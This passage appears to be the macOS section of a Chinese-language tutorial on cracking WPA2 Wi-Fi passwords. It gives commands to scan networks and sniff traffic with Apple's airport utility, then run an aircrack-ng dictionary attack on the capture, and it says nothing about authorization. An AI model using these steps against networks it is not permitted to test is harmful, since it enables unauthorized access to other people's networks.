 ## MAC OS 篇

### 1. 查看网卡名称

在终端中执行 `ifconfig` 即可查看，通常是 en0

### 2. 使用 airport 监听无线网络

由于某些原因，airmon-ng 无法在 MAC OS 使用，所以只能使用 airport 进行扫描和抓包了，但是并不好用，所以还是使用 linux 吧尽量...

开始扫描，终端中执行：

~~~shell
/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 scan
~~~

扫描结果会是这样的：

| SSID | BSSID | RSSI | CHANNEL | HT | CC | SECURITY (auth/unicast/group) |
| - | - | - | - | - | - | - |
| 小米手机 | 22:47:da:62:2a:f0 | -29 | 6 | Y | -- | WPA2(PSK/AES/AES) |

* SSID 表示 Wi-Fi 名称
* BSSID 表示 Wi-Fi 设备的硬件地址
* RSSI 表示信号强度，值是负数，绝对值越小信号越强
* CHANNEL 表示 Wi-Fi 信道
* HT 表示吞吐量模式，一般都为 Y
* CC 表示国家，中国为 CN
* SECURITY 表示加密方式

### 3. 使用 airport 进行抓包

~~~shell
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff
~~~

抓一段儿事件之后，使用 Ctrl + C 停止抓包，完成后会生成一个 cap 包，看到如下提示：

~~~
Session saved to /tmp/airportSniff0RjCAO.cap.
~~~

### 4. 安装 [aircrack-ng](https://aircrack-ng.org/)

* 使用 [Homebrew](https://brew.sh/) 安装：

~~~shell
brew install aircrack-ng
~~~

### 5. 使用 aircrack-ng 执行破解

~~~shell
aircrack-ng -w common.txt /tmp/airportSniff0RjCAO.cap
~~~
